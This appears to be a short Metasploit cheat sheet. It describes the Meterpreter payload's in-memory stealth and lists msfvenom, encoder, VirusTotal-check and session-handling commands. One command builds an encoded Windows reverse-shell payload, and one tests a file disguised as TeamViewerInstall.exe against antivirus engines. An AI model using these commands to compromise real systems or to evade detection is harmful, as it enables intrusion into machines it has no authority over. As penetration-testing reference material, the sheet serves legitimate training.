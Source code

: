 `The Meterpreter` payload is a specific type of multi-faceted payload that uses `DLL injection` to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes. Meterpreter resides completely in the memory of the remote host and leaves no traces on the hard drive, making it very difficult to detect with conventional forensic techniques.

## Encoder

- **Generating Payload - With Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

- **List Encoders**

```bash
msf6 exploit(windows/smb/goose) > show encoders
```

- **MSF - VirusTotal**

```bash
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

## Sessions

- **Listing Active Sessions**

```bash
msf6 exploit(windows/smb/goose) > sessions
```

- **Interacting with a Session**

```bash
msf6 exploit(windows/smb/goose) > sessions -i 1
```

- **Backgrounding session**

```bash
meterpreter > background
OR
Ctrl+Z
OR
meterpreter > bg
```

- **Killing session**

```bash
msf6 exploit(windows/smb/goose) > sessions -k 1
```

- **Listing Running Jobs**

```bash
msf6 exploit(multi/handler) > jobs -l
```

- **Run an Exploit as a Background Job**

```bash
msf6 exploit(multi/handler) > exploit -j
```